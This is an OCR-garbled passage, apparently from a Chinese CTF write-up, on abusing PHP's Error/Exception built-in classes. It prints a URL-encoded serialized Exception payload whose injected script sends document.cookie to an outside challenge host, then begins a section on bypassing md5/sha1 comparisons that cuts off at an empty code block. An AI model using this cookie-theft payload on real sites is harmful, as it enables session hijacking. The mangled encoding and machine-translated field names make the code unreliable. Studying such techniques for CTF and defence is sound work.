 ``

`PHP`

``

    
    
    1  
    

|

    
    
    /?yds_is_so_beautiful=O% 3 A9% 3 A% 22例外% 22 % 3 A7% 3 A% 7 Bs% 3 A10% 3 A% 22 % 00 % 2 A% 00消息% 22 % 3 Bs% 3 A109 3 A% 22 % 3 Cscript% 3 Ewindow.open% 28 % 27 http% 3 A% 2 F% 2 Fde28dfb3-f224 -48d4-b579-f1ea61189930.node3.buuoj.cn% 2 F% 3 F% 27 % 2 Bdocument.cookie% 29 % 3 B% 3 C% 2 Fscript% 3 E% 22 % 3 Bs% 3 A17% 3 A% 22 % 00异常% 00字符串% 22 % 3 Bs% 3 A0% 3 A% 22 % 22 % 3 Bs% 3 A7% 3 A% 22% 00 % 2 A% 00代码% 22 % 3 Bi% 3 A0% 3 Bs% 3 A7% 3 A% 22 % 00 % 2 A% 00文件% 22 % 3 Bs% 3 A18% 3 A% 22 % 2 Fusercode% 2 Ffile.php% 22 % 3 Bs% 3 A7% 3 A% 22 % 00 % 2 A% 00线% 22 % 3 Bi% 3 A2% 3 Bs% 3 A16% 3 A% 22 % 00例外% 00迹线% 22 % 3 Ba% 3 A0% 3 A% 7 B% 7 Ds% 3 A19% 3 A% 22 % 00例外% 00前一个 % 22 % 3 BN% 3 B% 7 D  
      
  
---|---  
  
`  
`

`执行后，得到flag就在cookie中：`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084242.png)`

# `使用错误/异常内置类绕过比较比较`

`在本书中，我们已经认识了错误和异常这两个 PHP 内置类，但对他们妙用的只是 XSS，还可以通过巧妙的构造绕过 md5() 和 sha1)
函数的比较。详细的说一下这个两个错误类了。`

## `错误类`

`错误是所有PHP内部错误类的基类，该类是在PHP 7.0.0中开始日期的。`

`类摘要：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8   
    9   
    10   
    11   
    12   
    13   
    14   
    15   
    16   
